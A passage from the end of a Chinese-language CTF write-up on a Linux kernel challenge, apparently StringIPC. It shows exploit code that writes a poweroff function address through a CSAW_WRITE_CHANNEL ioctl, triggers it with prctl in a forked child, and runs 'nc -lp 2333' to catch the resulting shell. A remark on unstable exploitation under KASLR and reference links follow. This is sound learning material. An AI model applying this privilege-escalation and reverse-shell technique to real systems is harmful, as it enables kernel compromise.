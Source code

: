 ```
        
    write_channel.id = alloc_channel.id;
    write_channel.buf = poweroff_func_addr;
    write_channel.count = strlen(poweroff_func_addr);
    ioctl(fd, CSAW_WRITE_CHANNEL, &write_channel);
        
    if (fork()==0){
        prctl(kernel_base, 2, kernel_base, kernel_base, 2);
        printf("[+] child process.\n");
        exit(-1);
             
    }
    printf("[+] parent process. listen .....\n");
    system("nc -lp 2333");

    return 0;
}

```

不太理解prctl参数的设定有没有影响。qemu 开启随机化，该exp利用有些不稳定。

### 参考链接

https://www.jianshu.com/p/07994f8b2bb0

http://p4nda.top/2018/11/07/stringipc/

https://hardenedlinux.github.io/translation/2015/11/25/Translation-Bypassing-SMEP-Using-vDSO-Overwrites.html

强网杯出题思路-solid_core-HijackPrctl
https://bbs.pediy.com/thread-225488.htm